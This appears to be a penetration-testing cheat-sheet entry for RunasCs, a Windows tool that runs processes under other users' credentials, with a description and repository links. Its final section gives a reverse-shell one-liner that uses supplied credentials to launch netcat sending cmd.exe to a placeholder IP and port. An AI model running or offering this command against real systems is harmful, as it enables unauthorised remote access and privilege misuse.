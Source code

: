# RunasCs

% windows, impersonation

#plateform/windows #target/local  #cat/ATTACK
## _desc
```
RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. solve many runas limits. Works both if spawned from interactive process and from service process
```

## _repo
```
https://github.com/antonioCoco/RunasCs
```

## _doc
```
https://github.com/antonioCoco/RunasCs
```

## _install
```
```



## Invoke-RunAs 
```powershell
RunasCs.exe <user> <password> 'cmd /c c:\tmp\nc64.exe <ip> <port> -e cmd.exe'
```
